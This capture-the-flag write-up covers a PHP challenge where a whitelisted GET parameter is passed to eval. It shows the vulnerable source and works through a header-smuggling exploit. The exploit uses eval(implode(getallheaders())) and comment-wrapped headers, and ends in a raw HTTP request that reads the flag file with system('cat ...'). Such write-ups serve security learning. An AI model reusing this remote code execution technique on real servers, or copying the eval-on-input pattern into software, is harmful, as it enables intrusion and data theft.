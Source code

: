 ### Code: 

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>

```

# Explanation: #
In above code only parameter is "roll". If parameter is not passed then source code is shown otherwise parameter is processed.
## Constraints
There are some constraints on roll parameter:-
### 1. Length
Length should be less than 50 characters.
### 2. Allowed Characters
- a-z
- (
-  )
-  _
-  .

## Target
Flag is in same directory in file "fl4g_here_but_can_you_get_it_hohoho.php".
1. We need to list all files in directory
2. We need to read flag file

## Obstacle
Roll parameter is too constrained to be used for exploitation. So we need to find another way to deliver our payload, and then execute using roll parameter.
## Failed Attempt
As same as everyone, I wasted many hours on using system command

We can easily list files using

```?roll=system(ls)```

So our first target of finding file name is completed, But when I tried reading file using

```?roll=readfile(system(ls))```

it only showed content of index.php, Why?

On [PHP System Page](https://www.php.net/manual/en/function.system.php), mentioned
```Function Returns the last line of the command output on success```

So while system(ls) is displaying all files, it only passing last file name to readfile function. And same is true for other similar functions like exec, passthru.

## Exploitation:
So I braked problem in parts and solved like this:-

#### 1. Payload Delivery

Roll parameter was too small for payload, So I used HTTP headers for delivering payload
```User-Agent: eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'))```

Here, I am reading flag file using cat. cat is called by system function. And system function is string which is parsed as php code by eval.

#### 2. Reading Payload

So our payload is delivered, now we need to read this.

```getallheaders()``` can be used for reading all headers. But this will return a array. But if we use implode function like ```implode(getallheaders())```, then it will create a string of all the VALUES of array as a string. like,

```
192.46.227.32 eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8en-US,en;q=0.5gzip, deflate1close11max-age=0

```

So now we have our payload ready. We can execute php code in above string using eval. So final url will be 

```192.46.227.32/?roll=(eval(implode(getallheaders())))```

#### 3. Final step
Our php code in above string also has other stuff and when eval will try to execute it will crash. So we should comment out that. How?
I created two more custom headers, where first when is on top of all header and had starting of php comment /* and last header I included had ending of php comment. And I changed payload to closed opened comment on start and close on end. So final request become like this

```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
xyz: /*test
Host: 192.46.227.32
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
abc: tses*/
```
